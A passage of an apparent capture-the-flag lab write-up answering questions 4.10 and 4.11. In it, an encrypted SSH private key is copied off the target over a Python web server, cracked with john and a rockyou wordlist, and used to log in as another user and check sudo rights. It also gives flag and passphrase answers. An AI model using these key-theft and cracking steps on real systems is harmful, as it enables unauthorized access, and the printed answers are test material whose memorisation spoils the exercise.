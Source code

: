 ```bash
    47
maya@linuxagency:~$ 
```bash

<p>old_robert_ssh</p>

```bash

```

<br>

<p>4.10. What is Robert's Passphrase?<br>
<code>industryweapon</code></p>

```bash
maya@linuxagency:~$ cd old_robert_ssh
maya@linuxagency:~/old_robert_ssh$ ls
id_rsa  id_rsa.pub
maya@linuxagency:~/old_robert_ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7903FE7BDBA051C4B0BF7C6C5C597E0B

iRzpH6qjXDvmVU5wwYU7TQfyQHIqYzR0NquznZ3OiXyaSOaovgPXdGP3r50vfIV6
...
-----END RSA PRIVATE KEY-----
maya@linuxagency:~/old_robert_ssh$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.56.125 - - [25/Jun/2025 18:41:49] "GET /id_rsa HTTP/1.1" 200 -
```

```bash
:~# wget http://10.10.167.9:8000/id_rsa
...
:~# john --wordlist=rockyou.txt id_rsa.hash
...
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
industryweapon   (id_rsa)
...
```

<br>

<p>4.11. What is user.txt?<br>
<code>user{620fb94d32470e1e9dcf8926481efc96}</code></p>

```bash
maya@linuxagency:~/old_robert_ssh$ ss -lntu
Netid State   Recv-Q  Send-Q         Local Address:Port      Peer Address:Port  
... 
tcp   LISTEN  0       128                127.0.0.1:2222           0.0.0.0:*     
...  
maya@linuxagency:~/old_robert_ssh$ ssh robert@127.0.0.1 -p 2222 -i id_rsa
robert@127.0.0.1's password: 
Last login: Tue Jan 12 17:02:07 2021 from 172.17.0.1
robert@ec96850005d6:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert)
robert@ec96850005d6:~$ sudo -l
Matching Defaults entries for robert on ec96850005d6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```